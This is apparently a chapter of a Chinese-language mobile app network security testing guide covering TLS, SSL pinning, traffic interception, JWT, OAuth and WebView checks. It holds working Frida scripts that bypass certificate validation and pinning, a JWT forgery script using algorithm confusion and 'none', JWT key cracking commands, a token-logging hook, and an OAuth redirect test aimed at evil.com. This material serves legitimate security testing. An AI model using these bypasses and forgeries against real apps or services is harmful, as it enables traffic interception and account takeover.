

## 网络通信安全测试

移动应用的网络通信是攻击者最容易拦截和篡改的环节之一。与服务端运行在受控数据中心不同，移动设备在各种不可信网络环境下运行——公共Wi-Fi、企业代理、运营商劫持——所有网络流量都暴露在潜在攻击者面前。网络通信安全测试的目标是验证应用在传输层和应用层是否实施了足够的保护机制，确保数据在传输过程中不被窃听、篡改或重放。

### TLS/HTTPS 基础与强制使用验证

#### TLS 协议演进与安全现状

TLS（Transport Layer Security）是保障网络通信机密性和完整性的基石协议。理解各版本的安全特性对于测试至关重要：

| TLS 版本 | 发布年份 | 安全状态 | 关键特性 |
|---------|---------|---------|---------|
| SSL 3.0 | 1996 | **已废弃**（POODLE攻击） | 仅作历史参考 |
| TLS 1.0 | 1999 | **已废弃**（BEAST攻击） | 多数合规标准已禁止 |
| TLS 1.1 | 2006 | **已废弃** | 无AEAD支持 |
| TLS 1.2 | 2008 | 安全（需正确配置） | 支持AEAD密码套件 |
| TLS 1.3 | 2018 | **推荐** | 1-RTT握手、移除不安全算法、强制前向保密 |

Android 从 API 29（Android 10）开始默认启用 TLS 1.3，iOS 13+ 同样默认支持。但许多应用出于兼容性考虑仍需支持 TLS 1.2，测试时应确认最低 TLS 版本不低于 1.2。

#### HTTPS 强制使用验证

**测试原理**：验证应用是否对所有网络请求强制使用 HTTPS，是否存在明文 HTTP 通信。

**Android Network Security Config 检查**：

Android 7.0（API 24）引入了 Network Security Config 机制，允许开发者声明网络安全策略。测试时需要检查 `res/xml/network_security_config.xml` 文件：

```xml
<!-- 不安全的配置示例：允许明文通信 -->
<network-security-config>
    <base-config cleartextTrafficPermitted="true">
        <trust-anchors>
            <certificates src="system" />
        </trust-anchors>
    </base-config>
</network-security-config>

<!-- 安全的配置示例：禁止明文通信 -->
<network-security-config>
    <base-config cleartextTrafficPermitted="false">
        <trust-anchors>
            <certificates src="system" />
        </trust-anchors>
    </base-config>
</network-security-config>
```

**动态测试方法**：

使用 mitmproxy 抓包，观察是否有任何 HTTP（非 HTTPS）请求发出：

```bash
# 启动 mitmproxy 监听
mitmproxy --listen-port 8080

# 配置设备代理后，过滤非HTTPS流量
# 在 mitmproxy 中按 f 键设置过滤：!~s ~d
# 或使用 tshark 抓包过滤HTTP流量
tshark -i any -f "tcp port 80 and not tcp port 443" -Y "http"
```

**AndroidManifest.xml 检查**：

```bash
# 反编译后检查 manifest 中是否有 usesCleartextTraffic
aapt dump xmltree app.apk AndroidManifest.xml | grep -i cleartext
# 或使用 apktool 反编译后直接查看
apktool d app.apk -o app_decoded
cat app_decoded/AndroidManifest.xml | grep -i cleartextTraffic
```

若 `android:usesCleartextTraffic="true"` 存在，则应用明确允许明文通信，这是一个安全缺陷。

**iOS ATS 检查**：

iOS 9+ 默认启用 App Transport Security（ATS），强制要求 HTTPS。但开发者可通过 `Info.plist` 中的 `NSAppTransportSecurity` 字段禁用 ATS：

```bash
# 检查 Info.plist 中的 ATS 配置
plutil -convert xml1 -o - Payload/App.app/Info.plist | grep -A 20 "NSAppTransportSecurity"
```

需要特别关注以下危险配置：
- `NSAllowsArbitraryLoads = true`：禁用所有 ATS 限制
- `NSAllowsArbitraryLoadsForMedia`：允许媒体内容使用 HTTP
- `NSAllowsArbitraryLoadsInWebContent`：允许 WebView 使用 HTTP
- `NSExceptionDomains` 下的 `NSExceptionAllowsInsecureHTTPLoads`

#### 证书验证逻辑测试

**测试原理**：验证应用是否正确验证服务器证书的可信性、有效期、域名匹配和证书链完整性。

证书验证应包括以下检查项：



**使用自签名证书测试**：

```bash
# 生成自签名证书
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=*.example.com"

# 用自签名证书启动一个 HTTPS 服务
python3 -c "
import http.server, ssl
ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
ctx.load_cert_chain('cert.pem', 'key.pem')
server = http.server.HTTPServer(('0.0.0.0', 8443), http.server.SimpleHTTPRequestHandler)
server.socket = ctx.wrap_socket(server.socket, server_side=True)
server.serve_forever()
"

# 如果应用仍然连接该服务并正常通信，说明证书验证存在缺陷
```

**使用 Frida 绕过证书验证**（验证应用是否做了自定义验证）：

```javascript
// Frida hook - 绕过 Android OkHttp 证书验证
Java.perform(function() {
    var TrustManagerImpl = Java.use("com.android.org.conscrypt.TrustManagerImpl");
    TrustManagerImpl.verifyChain.implementation = function(untrustedChain, trustAnchorChain, host, clientAuth, ocspData, tlsSctData) {
        console.log("[*] Bypassing certificate verification for: " + host);
        return untrustedChain;
    };
});

// Frida hook - 绕过 iOS NSURLSession 证书验证
if (ObjC.available) {
    var resolver = new ApiResolver('objc');
    resolver.enumerateMatches('-[* URLSession:didReceiveChallenge:completionHandler:]', {
        onMatch: function(match) {
            Interceptor.attach(match.address, {
                onEnter: function(args) {
                    var challenge = ObjC.Object(args[3]);
                    var protectionSpace = challenge.protectionSpace();
                    var authMethod = protectionSpace.authenticationMethod().toString();
                    if (authMethod === "NSURLAuthenticationMethodServerTrust") {
                        var completionHandler = new ObjC.Block(args[4]);
                        var credential = ObjC.classes.NSURLCredential.credentialForTrust_(protectionSpace.serverTrust());
                        completionHandler.implementation(0, credential);
                    }
                }
            });
        },
        onComplete: function() {}
    });
}
```

如果使用 Frida 绕过证书验证后应用仍能正常通信，说明应用没有进行额外的证书锁定（SSL Pinning）；如果绕过后仍然失败，说明应用可能实施了自定义的证书验证逻辑。

### SSL/TLS Pinning 测试

#### SSL Pinning 原理

SSL Pinning（证书锁定）是一种在客户端预先存储服务器证书或公钥信息的技术。客户端在建立 TLS 连接时，不仅验证证书是否由受信 CA 签发，还验证证书是否与预存的证书/公钥完全匹配。这可以有效防御以下场景：

- CA 被入侵或错误签发证书（如 DigiNotar 事件）
- 用户设备安装了恶意根证书
- 企业代理对 HTTPS 流量进行中间人解密

**Pinning 实现方式对比**：

| 实现方式 | 描述 | 优点 | 缺点 |
|---------|------|------|------|
| Certificate Pinning | 锁定完整证书 | 实现简单 | 证书更新时需同步更新客户端 |
| Public Key Pinning | 锁定证书公钥 | 证书可轮换，只要公钥不变 | 实现较复杂 |
| Hash Pinning | 锁定证书/公钥的哈希值 | 灵活，可锁定多个备用值 | 需管理哈希值列表 |

#### Android SSL Pinning 实现与测试

**常见实现方式**：

1. **Network Security Config Pinning**（Android 7.0+）

```xml
<network-security-config>
    <domain-config>
        <domain includeSubdomains="true">api.example.com</domain>
        <pin-set expiration="2025-12-31">
            <pin digest="SHA-256">7HIpactkIAq2Y49orFOOQKurWxmmSFZhBCoQYcRhJ3Y=</pin>
            <pin digest="SHA-256">fwza0LRMXouZHRC8Ei+4PyuldPDcf3UKgO/04cDM1oE=</pin>
        </pin-set>
    </domain-config>
</network-security-config>
```

测试时反编译 APK 检查是否存在 `pin-set` 配置：

```bash
apktool d app.apk -o app_decoded
grep -r "pin-set\|<pin " app_decoded/res/xml/
```

2. **OkHttp CertificatePinner**

```java
CertificatePinner certificatePinner = new CertificatePinner.Builder()
    .add("api.example.com", "sha256/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=")
    .build();
OkHttpClient client = new OkHttpClient.Builder()
    .certificatePinner(certificatePinner)
    .build();
```

在反编译代码中搜索 `CertificatePinner` 类的使用：

```bash
grep -rn "CertificatePinner" app_decoded/smali/
# 或使用 jadx 反编译后搜索
jadx -d app_jadx app.apk
grep -rn "CertificatePinner" app_jadx/sources/
```

3. **自定义 TrustManager**

开发者可能通过自定义 `X509TrustManager` 实现 Pinning，这是最容易出错的方式：

```bash
# 搜索自定义 TrustManager 实现
grep -rn "X509TrustManager\|checkServerTrusted\|checkClientTrusted" app_jadx/sources/
```

**绕过 SSL Pinning 的技术**：

**方法一：Frida + objection**

```bash
# 使用 objection 快速绕过
objection -g com.target.app explore
android sslpinning disable

# 或使用 Frida 脚本手动绕过
frida -U -f com.target.app -l ssl_bypass.js --no-pause
```

**方法二：Frida 精确绕过 Network Security Config Pinning**

```javascript
Java.perform(function() {
    // 绕过 Network Security Config 的 pinning 检查
    var NetworkSecurityConfig = Java.use("android.security.net.config.NetworkSecurityConfig");
    NetworkSecurityConfig.getEffectivePinningSets.implementation = function() {
        console.log("[*] Returning empty pinning set");
        return Java.use("android.security.net.config.PinSet").$new(null, null);
    };
});
```

**方法三：Xposed/LSPosed 模块**

使用 TrustMeAlready 或 JustTrustMe 模块全局绕过 SSL Pinning。适用于需要长期测试的场景。

**方法四：修改 APK**

```bash
# 1. 反编译
apktool d app.apk -o app_mod

# 2. 修改 network_security_config.xml，移除 pin-set 节点
# 3. 修改 smali 代码，注释掉 CertificatePinner 相关逻辑
# 4. 重新编译
apktool b app_mod -o app_mod.apk

# 5. 签名
apksigner sign --ks debug.keystore --ks-pass pass:android app_mod.apk
```

**方法五：Frida 动态替换证书信任链**

```javascript
Java.perform(function() {
    var X509TrustManager = Java.use("javax.net.ssl.X509TrustManager");
    var SSLContext = Java.use("javax.net.ssl.SSLContext");

    var TrustManager = Java.registerClass({
        name: "com.custom.TrustManager",
        implements: [X509TrustManager],
        methods: {
            checkClientTrusted: function(chain, authType) {},
            checkServerTrusted: function(chain, authType) {},
            getAcceptedIssuers: function() { return []; }
        }
    });

    var TrustManagers = [TrustManager.$new()];
    var sslCtx = SSLContext.getInstance("TLS");
    sslCtx.init(null, TrustManagers, null);
    sslCtx.getDefaultSSLContext.implementation = function() { return sslCtx; };
});
```

#### iOS SSL Pinning 实现与测试

**常见实现方式**：

1. **NSURLSession delegate 方式**

```swift
func urlSession(_ session: URLSession, didReceive challenge: URLAuthenticationChallenge,
                completionHandler: @escaping (URLSession.AuthChallengeDisposition, URLCredential?) -> Void) {
    guard let serverTrust = challenge.protectionSpace.serverTrust,
          SecTrustEvaluateWithError(serverTrust, nil),
          let serverCert = SecTrustGetCertificateAtIndex(serverTrust, 0),
          let serverPublicKey = SecCertificateCopyKey(serverCert),
          let localCertPath = Bundle.main.path(forResource: "pinned", ofType: "cer"),
          let localCertData = try? Data(contentsOf: URL(fileURLWithPath: localCertPath)),
          let localCert = SecCertificateCreateWithData(nil, localCertData as CFData),
          let localPublicKey = SecCertificateCopyKey(localCert) else {
        completionHandler(.cancelAuthenticationChallenge, nil)
        return
    }

    if serverPublicKey == localPublicKey {
        completionHandler(.useCredential, URLCredential(trust: serverTrust))
    } else {
        completionHandler(.cancelAuthenticationChallenge, nil)
    }
}
```

2. **TrustKit 库**

在 `Info.plist` 或代码中搜索 `TrustKit` 相关配置：

```bash
grep -r "TrustKit\|TSKPinningPolicy" Payload/App.app/
```

3. **Alamofire ServerTrustManager**

```swift
let manager = ServerTrustManager(evaluators: [
    "api.example.com": PinnedCertificatesTrustEvaluator()
])
```

**iOS SSL Pinning 绕过**：

```javascript
// Frida 绕过 iOS SSL Pinning
if (ObjC.available) {
    // 方法一：Hook NSURLSessionDelegate
    try {
        var className = "AppDelegate";
        var delegate = ObjC.classes[className];
        var methods = delegate.$ownMethods;
        methods.forEach(function(m) {
            if (m.indexOf("didReceiveChallenge") !== -1) {
                Interceptor.attach(delegate[m].implementation, {
                    onEnter: function(args) {
                        var challenge = ObjC.Object(args[3]);
                        var protectionSpace = challenge.protectionSpace();
                        var trust = protectionSpace.serverTrust();
                        var credential = ObjC.classes.NSURLCredential.credentialForTrust_(trust);
                        var completionHandler = new ObjC.Block(args[4]);
                        completionHandler.implementation(0, credential);
                    }
                });
            }
        });
    } catch(e) {}

    // 方法二：Hook SecTrustEvaluate
    try {
        var SecTrustEvaluate = Module.findExportByName("Security", "SecTrustEvaluate");
        Interceptor.attach(SecTrustEvaluate, {
            onLeave: function(retval) {
                retval.replace(0x00); // errSecSuccess
            }
        });

        var SecTrustEvaluateWithError = Module.findExportByName("Security", "SecTrustEvaluateWithError");
        Interceptor.attach(SecTrustEvaluateWithError, {
            onLeave: function(retval) {
                retval.replace(0x01); // true
            }
        });
    } catch(e) {}
}
```

### 弱密码套件与 TLS 配置测试

#### 密码套件安全评估

密码套件（Cipher Suite）的格式为 `密钥交换-认证-加密-MAC`，例如 `TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256`。

**高危密码套件**：

| 类型 | 问题 | 示例 |
|------|------|------|
| NULL 加密 | 不提供任何加密 | TLS_RSA_WITH_NULL_SHA |
| RC4 | 存在统计偏差攻击 | TLS_RSA_WITH_RC4_128_SHA |
| DES/3DES | 密钥长度不足/Sweet32攻击 | TLS_RSA_WITH_3DES_EDE_CBC_SHA |
| CBC 模式 | 易受 BEAST、Lucky13 攻击 | TLS_RSA_WITH_AES_128_CBC_SHA |
| EXPORT 级别 | 密钥长度极短（512bit） | TLS_RSA_EXPORT_WITH_RC4_40_MD5 |
| 无前向保密 | 使用 RSA 密钥交换 | TLS_RSA_WITH_AES_128_GCM_SHA256 |

**推荐密码套件**：

```text
# TLS 1.3（自动具备前向保密）
TLS_AES_256_GCM_SHA384
TLS_CHACHA20_POLY1305_SHA256
TLS_AES_128_GCM_SHA256

# TLS 1.2（推荐）
TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384
TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384
TLS_ECDHE_ECDSA_WITH_CHACHA20_POLY1305_SHA256
TLS_ECDHE_RSA_WITH_CHACHA20_POLY1305_SHA256
TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256
TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
```

#### 服务端 TLS 配置测试

使用 nmap 和 testssl.sh 对应用后端 API 进行全面扫描：

```bash
# nmap SSL 枚举
nmap --script ssl-enum-ciphers -p 443 api.example.com

# testssl.sh 全面测试
testssl.sh --full https://api.example.com

# 重点关注输出中的：
# - 协议版本支持（是否禁用了 SSLv3/TLS1.0/1.1）
# - 弱密码套件（标记为 WEAK/BROKEN）
# - 前向保密支持
# - HSTS 配置
```

**客户端 TLS 版本测试**：

使用 `sslscan` 确认服务端支持的最低 TLS 版本：

```bash
sslscan api.example.com
# 输出示例：
#   Supported Server Cipher(s):
#   Preferred TLSv1.3  256 bits  TLS_AES_256_GCM_SHA384
#   Accepted  TLSv1.3  256 bits  TLS_CHACHA20_POLY1305_SHA256
#   Accepted  TLSv1.2  256 bits  ECDHE-RSA-AES256-GCM-SHA384
```

#### Certificate Transparency 测试

Certificate Transparency（CT）是一种公开记录所有签发的 TLS 证书的机制，可以检测 CA 错误签发或恶意签发的证书。

```bash
# 查询域名的 CT 日志
curl -s "https://crt.sh/?q=example.com&output=json" | jq '.[] | {issuer_name, not_before, not_after, name_value}' | head -50

# 检查服务端是否返回 SCT（Signed Certificate Timestamp）
openssl s_client -connect api.example.com:443 -ct </dev/null 2>&1 | grep "SCT"
```

Android 从 API 24 开始要求 CA 提供 CT 合规性。iOS 同样支持 CT 验证。

### 网络流量分析与中间人攻击测试

#### 流量拦截测试环境搭建

**mitmproxy 完整配置流程**：

```bash
# 1. 安装 mitmproxy
pip install mitmproxy

# 2. 启动代理
mitmweb --listen-port 8080 --set block_global=false

# 3. 配置设备代理
# Android: 设置 > WLAN > 长按网络 > 修改网络 > 高级 > 代理 > 手动
# iOS: 设置 > Wi-Fi > 点击 (i) > HTTP 代理 > 手动

# 4. 在设备浏览器访问 mitm.it 安装 CA 证书

# 5. Android 7+ 系统证书安装
# 将 mitmproxy CA 证书安装为系统证书（需要 root）
cp ~/.mitmproxy/mitmproxy-ca-cert.cer /system/etc/security/cacerts/$(openssl x509 -inform PEM -subject_hash_old -in ~/.mitmproxy/mitmproxy-ca-cert.cer | head -1).0
```

**抓包自动化脚本**：

```python
#!/usr/bin/env python3
"""mitmproxy 脚本：记录并分析移动应用流量"""
from mitmproxy import http
import json
import re

SENSITIVE_PATTERNS = [
    (r'\b\d{16,19}\b', 'PAN（银行卡号）'),
    (r'\b\d{3}-?\d{2}-?\d{4}\b', 'SSN（社会安全号）'),
    (r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b', '邮箱地址'),
    (r'\b1[3-9]\d{9}\b', '手机号'),
    (r'\b\d{17}[\dXx]\b', '身份证号'),
    (r'password|passwd|token|secret|api_key', '敏感关键词'),
]

class SecurityAnalyzer:
    def request(self, flow: http.HTTPFlow):
        # 检测明文 HTTP
        if flow.request.scheme == "http":
            print(f"[!] 明文HTTP: {flow.request.method} {flow.request.url}")

        # 检测敏感数据泄露
        request_body = flow.request.get_text() or ""
        for pattern, label in SENSITIVE_PATTERNS:
            if re.search(pattern, request_body, re.IGNORECASE):
                print(f"[!] 请求中发现 {label}: {flow.request.url}")

        # 检测认证信息
        auth_header = flow.request.headers.get("Authorization", "")
        if auth_header:
            if auth_header.startswith("Basic "):
                print(f"[!] Basic认证（Base64编码，可逆）: {flow.request.url}")

    def response(self, flow: http.HTTPFlow):
        # 检测响应中的敏感数据
        if flow.response:
            content_type = flow.response.headers.get("content-type", "")
            if "json" in content_type or "text" in content_type:
                body = flow.response.get_text() or ""
                for pattern, label in SENSITIVE_PATTERNS:
                    if re.search(pattern, body, re.IGNORECASE):
                        print(f"[!] 响应中发现 {label}: {flow.request.url}")

                # 检测安全头缺失
                security_headers = {
                    "Strict-Transport-Security": "HSTS",
                    "X-Content-Type-Options": "X-Content-Type-Options",
                    "X-Frame-Options": "X-Frame-Options",
                    "Content-Security-Policy": "CSP",
                }
                for header, name in security_headers.items():
                    if header not in flow.response.headers:
                        print(f"[!] 缺少安全头 {name}: {flow.request.url}")

addons = [SecurityAnalyzer()]
```

运行脚本：

```bash
mitmproxy -s security_analyzer.py --listen-port 8080
```

#### HTTP 安全头验证

移动应用 API 响应应包含以下安全头：

| 安全头 | 作用 | 推荐值 |
|-------|------|-------|
| Strict-Transport-Security | 强制 HTTPS | `max-age=31536000; includeSubDomains` |
| X-Content-Type-Options | 防止 MIME 嗅探 | `nosniff` |
| Cache-Control | 防止敏感数据缓存 | `no-store, no-cache, must-revalidate` |
| X-Frame-Options | 防止点击劫持（WebView场景） | `DENY` |
| Content-Security-Policy | 防止 XSS（WebView场景） | 根据场景配置 |

```bash
# 快速检查 API 安全头
curl -sI https://api.example.com/v1/data | grep -iE "strict-transport|x-content-type|cache-control|x-frame|content-security"
```

#### 敏感数据传输分析

测试 API 请求和响应中是否存在未加密传输的敏感数据：

**检查项清单**：

1. **认证凭据传输方式**：
   - 密码是否通过 POST body 传输（可接受）而非 URL 参数（不可接受）
   - Token 是否通过 `Authorization` 头传输（推荐）而非 URL 参数（不可接受）
   - 是否使用了过时的认证方式（如 Basic Auth）

2. **敏感数据是否额外加密**：
   - 信用卡号、身份证号等 PII 数据是否在 TLS 之外有额外加密
   - 请求体是否包含签名或完整性校验

3. **响应数据暴露**：
   - API 响应是否返回了不必要的字段（如密码哈希、内部ID）
   - 错误信息是否暴露了服务器内部细节

```bash
# 使用 mitmproxy 导出所有请求/响应进行离线分析
mitmdump -s security_analyzer.py --set flow_detail=2 -w traffic.flow

# 提取所有 URL 参数中的敏感信息
mitmdump -r traffic.flow --set flow_detail=0 -q | grep -oP '[?&](password|token|key|secret)=[^&]*'
```

### API 认证机制测试

#### 认证机制评估

移动应用 API 常见的认证机制及其安全等级：

| 认证方式 | 安全等级 | 适用场景 | 主要风险 |
|---------|---------|---------|---------|
| API Key（URL/Header） | 低 | 公开数据查询 | 易泄露，无法控制有效期 |
| Basic Auth | 低 | 内部服务 | Base64可逆，无过期机制 |
| Session Cookie | 中 | 传统 Web 应用 | CSRF、会话固定 |
| JWT（无状态Token） | 中-高 | RESTful API | 算法混淆、密钥泄露、Token泄露 |
| OAuth 2.0 + PKCE | 高 | 第三方授权 | 实现复杂度高，易配置错误 |
| mTLS（双向TLS） | 非常高 | 高安全场景 | 证书管理复杂 |

#### JWT 安全测试

JWT（JSON Web Token）是移动应用最常用的认证机制，常见漏洞包括：

**1. 算法混淆攻击（Algorithm Confusion）**

当服务端使用 RSA 算法验证 JWT 时，攻击者可以将算法改为 HMAC，使用 RSA 公钥作为 HMAC 密钥伪造 Token：

```python
#!/usr/bin/env python3
"""JWT 算法混淆攻击测试"""
import jwt
import requests

# 获取 RSA 公钥（通常从 JWKS 端点获取）
jwks_url = "https://api.example.com/.well-known/jwks.json"
jwks = requests.get(jwks_url).json()
public_key = jwks["keys"][0]

# 构造攻击载荷
payload = {
    "sub": "admin",
    "role": "admin",
    "iat": 1700000000,
    "exp": 1800000000
}

# 方法一：使用 HMAC + 公钥
try:
    forged_token = jwt.encode(payload, str(public_key), algorithm="HS256")
    print(f"[!] 算法混淆成功: {forged_token[:50]}...")
except Exception as e:
    print(f"[*] 算法混淆失败: {e}")

# 方法二：使用 none 算法
try:
    # 手动构造 header
    import base64, json
    header = base64.urlsafe_b64encode(json.dumps({"alg": "none", "typ": "JWT"}).encode()).rstrip(b'=').decode()
    payload_b64 = base64.urlsafe_b64encode(json.dumps(payload).encode()).rstrip(b'=').decode()
    none_token = f"{header}.{payload_b64}."
    print(f"[!] none 算法 Token: {none_token}")
except Exception as e:
    print(f"[*] none 算法失败: {e}")
```

**2. JWT 密钥强度测试**

```bash
# 使用 hashcat 暴力破解弱 HMAC 密钥
hashcat -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt

# 使用 jwt_tool 自动化测试
python3 jwt_tool.py <JWT_TOKEN> -C -d /usr/share/wordlists/rockyou.txt
```

**3. JWT 常见配置缺陷检查**：

```bash
# 解码 JWT 查看 header 和 payload
echo "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiIxMjM0NTY3ODkwIn0.xxx" | cut -d. -f1 | base64 -d 2>/dev/null | jq .
echo "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiIxMjM0NTY3ODkwIn0.xxx" | cut -d. -f2 | base64 -d 2>/dev/null | jq .
```

检查项：
- `alg` 是否为 `none` 或弱算法
- `exp` 是否存在且合理（过期时间不应过长）
- `iss`（签发者）是否可被篡改
- 是否存在 `jku`/`x5u` 等可被利用的头字段

#### OAuth 2.0 测试

移动应用 OAuth 2.0 常见配置缺陷：

**1. PKCE 缺失**：移动应用应使用 Authorization Code Flow + PKCE，而非 Implicit Flow

**2. Redirect URI 验证不严格**：

```bash
# 测试开放重定向
curl "https://auth.example.com/authorize?response_type=code&client_id=MOBILE_APP&redirect_uri=https://evil.com/callback"
# 如果被重定向到 evil.com 并携带 code 参数，说明验证不足
```

**3. State 参数缺失**：检查授权请求是否包含 `state` 参数以防止 CSRF

**4. Token 存储安全**：使用 Frida 检查 Token 的存储位置

```javascript
Java.perform(function() {
    // 监控 SharedPreferences 写入
    var SharedPreferencesImpl = Java.use("android.app.SharedPreferencesImpl$EditorImpl");
    SharedPreferencesImpl.putString.implementation = function(key, value) {
        if (key.toLowerCase().includes("token") || key.toLowerCase().includes("auth") ||
            key.toLowerCase().includes("session") || key.toLowerCase().includes("access")) {
            console.log("[*] Token 写入 SharedPreferences: key=" + key + " value=" + value);
            console.log(Java.use("android.util.Log").getStackTraceString(Java.use("java.lang.Exception").$new()));
        }
        return this.putString(key, value);
    };
});
```

### WebView 安全测试

WebView 是移动应用中混合架构的核心组件，也是网络通信安全的重要测试点。

#### Android WebView 安全测试

```java
// 危险的 WebView 配置
webView.getSettings().setJavaScriptEnabled(true);        // 启用 JS
webView.getSettings().setAllowFileAccess(true);          // 允许文件访问
webView.getSettings().setAllowFileAccessFromFileURLs(true); // 允许 file:// 协议访问文件
webView.getSettings().setAllowUniversalAccessFromFileURLs(true); // 允许跨域文件访问
webView.getSettings().setAllowContentAccess(true);       // 允许 content:// 访问
webView.addJavascriptInterface(obj, "Android");          // JS 桥接
```

**测试方法**：

```bash
# 1. 检查 WebView 配置
grep -rn "setJavaScriptEnabled\|setAllowFileAccess\|addJavascriptInterface\|setAllowUniversalAccess" app_jadx/sources/

# 2. 检查 WebView 加载的 URL 是否为 HTTPS
grep -rn "loadUrl\|loadDataWithBaseURL" app_jadx/sources/

# 3. 检查 WebViewClient 是否覆盖了 onReceivedSslError
grep -rn "onReceivedSslError" app_jadx/sources/
# 如果覆盖且调用了 handler.proceed()，则 WebView 会忽略证书错误
```

**JavaScript 接口利用**：

```javascript
// Frida 枚举 WebView 的 JavaScript 接口
Java.perform(function() {
    var WebView = Java.use("android.webkit.WebView");
    WebView.addJavascriptInterface.implementation = function(obj, name) {
        console.log("[*] JS Interface 注册: " + name + " -> " + obj.getClass().getName());
        // 枚举接口方法
        var methods = obj.getClass().getMethods();
        for (var i = 0; i < methods.length; i++) {
            if (methods[i].getAnnotation(Java.use("android.webkit.JavascriptInterface").$class) !== null) {
                console.log("    @JavascriptInterface: " + methods[i].getName());
            }
        }
        return this.addJavascriptInterface(obj, name);
    };
});
```

### 自动化测试工具与流程

#### 工具矩阵

| 工具 | 用途 | 平台 | 安装 |
|------|------|------|------|
| mitmproxy | HTTP/HTTPS 代理 | 全平台 | `pip install mitmproxy` |
| Burp Suite | 综合 Web 安全测试 | 全平台 | 商业/社区版 |
| Frida | 动态 Hook 框架 | Android/iOS | `pip install frida-tools` |
| objection | 移动安全测试框架 | Android/iOS | `pip install objection` |
| testssl.sh | TLS 配置扫描 | Linux/macOS | `git clone` |
| nmap + ssl-enum-ciphers | 密码套件枚举 | 全平台 | 系统包管理器 |
| sslscan | TLS/SSL 扫描 | 全平台 | `apt install sslscan` |
| jwt_tool | JWT 安全测试 | Python | `git clone` |
| mobsf | 移动安全综合扫描 | 全平台 | Docker |

#### 自动化测试脚本模板

```bash
#!/bin/bash
# 移动应用网络通信安全自动化测试脚本
# 用法: ./network_security_test.sh <apk_path> <api_domain>

APK_PATH="$1"
API_DOMAIN="$2"
REPORT_DIR="./reports/network_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$REPORT_DIR"

echo "=== 移动应用网络通信安全测试 ==="
echo "APK: $APK_PATH"
echo "API: $API_DOMAIN"
echo "报告目录: $REPORT_DIR"

# 1. TLS 配置扫描
echo "[1/5] TLS 配置扫描..."
testssl.sh --jsonfile "$REPORT_DIR/testssl.json" "https://$API_DOMAIN" 2>&1 | tee "$REPORT_DIR/testssl.log"

# 2. 密码套件枚举
echo "[2/5] 密码套件枚举..."
nmap --script ssl-enum-ciphers -p 443 "$API_DOMAIN" -oN "$REPORT_DIR/ciphers.txt" 2>&1

# 3. 安全头检查
echo "[3/5] 安全头检查..."
curl -sI "https://$API_DOMAIN" > "$REPORT_DIR/headers.txt"
echo "--- HSTS ---" >> "$REPORT_DIR/headers_analysis.txt"
grep -i "strict-transport" "$REPORT_DIR/headers.txt" >> "$REPORT_DIR/headers_analysis.txt" || echo "MISSING" >> "$REPORT_DIR/headers_analysis.txt"

# 4. APK 静态分析
echo "[4/5] APK 网络相关静态分析..."
APK_DIR="$REPORT_DIR/apk_analysis"
mkdir -p "$APK_DIR"
apktool d "$APK_PATH" -o "$APK_DIR/decoded" -f 2>/dev/null

# 搜索网络相关配置
grep -rn "cleartextTraffic\|network_security_config\|pin-set" "$APK_DIR/decoded/" > "$APK_DIR/network_config.txt" 2>/dev/null
grep -rn "http://" "$APK_DIR/decoded/AndroidManifest.xml" >> "$APK_DIR/network_config.txt" 2>/dev/null

# 5. CT 日志检查
echo "[5/5] Certificate Transparency 检查..."
curl -s "https://crt.sh/?q=$API_DOMAIN&output=json" | jq '.[] | {issuer_name, not_before, not_after}' > "$REPORT_DIR/ct_logs.json" 2>/dev/null

echo "=== 测试完成 ==="
echo "报告保存在: $REPORT_DIR"
```

### 常见误区与纠正

**误区一：认为 HTTPS 就是安全的**

HTTPS 仅保证传输层加密，不保护端点安全。应用可能在 HTTPS 之上明文传输密码、Token 或敏感数据。测试时需要解密 HTTPS 流量后分析应用层数据。

**误区二：只测试生产环境的 TLS 配置**

开发/测试环境可能使用不同的 TLS 配置（如允许自签名证书）。应确认生产环境的配置不会被降级到开发环境的宽松策略。

**误区三：忽略中间代理场景**

企业环境中的透明代理可能对 HTTPS 流量进行中间人解密。如果应用没有实施 SSL Pinning，企业代理或恶意 Wi-Fi 热点可以完全解密流量。

**误区四：仅依赖系统信任库**

Android 7.0+ 允许用户安装用户级 CA 证书，但不将其用于应用默认信任。然而，应用可能通过 Network Security Config 信任用户安装的证书，这会降低安全性。

```xml
<!-- 不安全：信任用户安装的证书 -->
<base-config>
    <trust-anchors>
        <certificates src="system" />
        <certificates src="user" />  <!-- 危险 -->
    </trust-anchors>
</base-config>
```

**误区五：SSL Pinning 实现不完整**

仅对部分域名实施 Pinning，或只锁定证书而不锁定公钥，都会给攻击者留下绕过空间。完整的 Pinning 应覆盖所有关键 API 域名，并使用公钥或哈希锁定。

**误区六：忽略证书轮换的影响**

实施 SSL Pinning 后，如果服务端证书更新而客户端未同步更新，将导致所有用户无法连接。解决方案是同时锁定当前证书和备用证书的公钥，并提前在证书过期前更新客户端。

### 进阶内容：高级网络攻击与防御

#### TLS 1.3 与加密流量分析

